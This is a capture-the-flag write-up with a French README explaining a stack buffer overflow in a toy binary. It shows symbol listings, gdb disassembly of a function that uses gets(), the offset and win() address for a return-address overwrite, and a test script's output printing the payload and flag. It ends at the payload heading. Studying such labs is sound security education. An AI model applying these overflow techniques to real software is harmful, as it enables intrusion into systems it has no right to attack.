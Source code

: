 # Notes

```bash
woddy git:(main) ✗ nm vuln1 | grep ' T '
 %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
08049430 T __libc_csu_fini
080493c0 T __libc_csu_init
08049435 T __x86.get_pc_thunk.bp
080491b0 T __x86.get_pc_thunk.bx
080491a0 T _dl_relocate_static_pie
0804943c T _fini
08049000 T _init
08049160 T _start
0804935b T main
08049308 T vuln
08049276 T win

woddy git:(main) ✗ gdb vuln1
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x08049308 <+0>:     endbr32
   0x0804930c <+4>:     push   %ebp
   0x0804930d <+5>:     mov    %esp,%ebp
   0x0804930f <+7>:     push   %ebx
   0x08049310 <+8>:     sub    $0x24,%esp
   0x08049313 <+11>:    call   0x80491b0 <__x86.get_pc_thunk.bx>
   0x08049318 <+16>:    add    $0x2ce8,%ebx
   0x0804931e <+22>:    sub    $0xc,%esp
   0x08049321 <+25>:    lea    -0x1faa(%ebx),%eax
   0x08049327 <+31>:    push   %eax
   0x08049328 <+32>:    call   0x80490e0 <printf@plt>
   0x0804932d <+37>:    add    $0x10,%esp
   0x08049330 <+40>:    sub    $0xc,%esp
   0x08049333 <+43>:    lea    -0x28(%ebp),%eax
   0x08049336 <+46>:    push   %eax
   0x08049337 <+47>:    call   0x80490f0 <gets@plt>
   0x0804933c <+52>:    add    $0x10,%esp
   0x0804933f <+55>:    sub    $0x8,%esp
   0x08049342 <+58>:    lea    -0x28(%ebp),%eax
   0x08049345 <+61>:    push   %eax
   0x08049346 <+62>:    lea    -0x1f91(%ebx),%eax
   0x0804934c <+68>:    push   %eax

woddy git:(main) ✗ python3 test.py 
=== Server Response ===
Welcome to Woody's challenge!
Woody needs your input: You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAv\x04\x08
Woody says: Here's the flag, partner! BDSEC{Woody_Stack_Smash_123}
```

# README - Woody's Challenge Exploit

## Objectif

- Trouver un moyen d’exploiter une faille dans ce programme pour faire exécuter une fonction cachée (`win()` ici).
- Cette fonction `win()` affiche un flag qu’on veut récupérer.

---

## Comment on procède en général ?

1. **Comprendre comment le programme reçoit l’input**

    - Est-ce qu’il utilise une fonction sécurisée ou non ?
    - Ici on voit `gets()`, qui est très dangereux car il ne limite pas la taille de ce que tu envoies.

2. **Comprendre comment le programme stocke cette entrée**

    - Le programme alloue un espace (buffer) en mémoire pour mettre cette chaîne.
    - Si tu envoies plus que la taille du buffer, ça "déborde" en mémoire, écrasant ce qui vient juste après.

3. **Comprendre ce qu’on peut écraser**

    - Dans un programme, derrière ce buffer sur la pile, il y a des variables internes, puis des infos importantes comme :
        - Le pointeur vers la base de la pile précédente (saved EBP)
        - L’adresse de retour (EIP) — l’adresse où le programme va continuer une fois la fonction terminée.

4. **Exploiter ce débordement**

    - En envoyant plus que la taille du buffer, on peut écraser l’adresse de retour.
    - Ça permet de rediriger le programme vers la fonction qu’on veut, ici `win()`.

---

## En résumé, on va :

- Trouver la taille du buffer
- Trouver où se trouve l’adresse de retour par rapport à ce buffer
- Construire une entrée (payload) qui remplira le buffer, puis écrasera l’adresse de retour
- Mettre dans cette adresse de retour l’adresse de la fonction `win()`
- Envoyer ce payload au programme
- Le programme, au retour de la fonction vulnérable, sautera à `win()` et affichera le flag

---

## Notes techniques

- Le buffer est situé à `ebp - 0x28` (40 octets).
- Après le buffer viennent `saved ebp` (4 octets), puis l’adresse de retour (4 octets).
- L’offset à remplir avant l’adresse de retour est donc de 44 octets.
- L’adresse de la fonction `win()` est `0x08049276`.

---

## Exemple de payload


